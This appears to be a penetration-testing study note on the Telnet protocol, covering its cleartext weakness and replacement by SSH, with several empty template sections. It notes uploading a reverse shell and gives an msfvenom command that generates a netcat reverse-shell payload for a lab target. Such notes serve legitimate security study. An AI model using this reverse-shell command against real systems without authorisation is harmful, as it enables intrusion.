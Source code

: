 
***
###### `Title :- Telnet`
###### `Created on :- 2023-08-05 - 13:04`
###### `Created by:- Prem J`
***
#### `Brief -->`



#### `Used For -->`

- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

#### `How does it work -->`

- The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.
- The user connects to the server by using the Telnet protocol, which means entering **"telnet"** into a command prompt.
- The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

#### `Advantages -->`



#### `Alternatives -->`



#### `Configuration Files -->`


#### `Commands -->`


#### `Vulnerabilities -->`

- Telnet sends all messages in ***clear text*** and has no specific security mechanisms. 

#### `Exploitation -->`

- It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control
- There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:
	- [https://www.cvedetails.com/](https://www.cvedetails.com/)
	- [https://cve.mitre.org/](https://cve.mitre.org/)[](https://cve.mitre.org/)
- We can connect to target and upload a reverse shell to gain access to the target system

![[Pasted image 20230805141857.png]]
#### `Remedies -->`

- Thus, in many applications and services, Telnet has been ***replaced by SSH*** in most implementations.

>[!Note]
>Start a tcpdump listener on your local machine.
>**If using your own machine with the OpenVPN connection, use:**  
>- `sudo tcpdump ip proto \\icmp -i tun0`

>[!Note]
>We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  
>`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
>-p = payload
>lhost = our local host IP address (this is **your** machine's IP address)
>lport = the port to listen on (this is the port on **your** machine)
>R = export the payload in raw format

#### `Footprinting Walkthrough -->`



#### `Summary -->`